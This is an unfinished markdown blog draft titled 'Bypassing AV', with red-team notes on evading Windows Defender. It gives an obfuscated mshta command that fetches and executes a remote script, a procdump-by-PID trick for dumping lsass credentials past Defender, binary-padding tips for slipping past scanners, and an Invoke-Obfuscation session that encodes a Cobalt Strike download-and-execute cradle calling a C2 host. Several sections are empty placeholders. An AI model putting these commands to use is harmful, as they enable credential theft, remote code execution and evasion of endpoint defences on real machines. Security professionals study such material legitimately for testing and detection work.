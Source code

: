 ```yaml
---
title: "Bypassing AV"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

asdas

#### Bypassing Defender (Work Out)
reference: https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/

#### Finding AMSI triggers ToDo
Using the 

#### Bypassing generic Defender detection using string concat.
In a lot of cases potentially malicious commands will be blocked by defender. Say we execute the following command, which downloads a JavaScript file which will execute using Microsoft HTA and spawn a calculator.

```
$ mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
This will get flagged my defender immediately and execution will be prevented. However, using string concatination we can very easily obfuscate commands. The following command does not get flagged by Defender:
```
mshta.exe vbscript:Close(Execute("GetO"+"bject"+"(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
***

#### lsass dumping under Windows Defender
When using procdump to dump lsass the dump is removed as soon as it touches disk by Windows Defender. My supplying the PID instead of the process name this can be bypassed. Get the PID via:
```
 tasklist /fi "imagename eq lsass.exe"
```
Then dump using the PID:
```
procdump -accepteula -ma <PID> lsass.dmp
```
***


#### Unhook API calls ToDo

#### Add data to the binary
Adding random or "known good" data to the beginning or end of a binary can serve two causes. One; some antimalware software has a limit on size of the files they can inspect (for performance reasons). Adding lots of exra data might exempt you from analysis.
Two; Adding data from software or files that is known to be good can help increas the "goodness"-score when statically analysing the file.

#### Obfuscating PowerShell using Invoke-Obfuscation ToDo
Invoke-Obfuscation is a framework to obfuscate PowerShell. The examples below show how to encode a PowerShell webdelivery scriptblock generated by Cobalt Strike using the 'TOKEN' obfuscation method.

```
$ Import-Module ./Invoke-Obfuscation.psd1
$ Invoke-Obfuscation
$ set SCRIPTBLOCK IEX (New-Object Net.Webclient).downloadstring('http://cobaltstrike.c2/evil.ps1')
$ TOKEN
$ ALL
$ 1
```
***


#### Using syscals ToDo
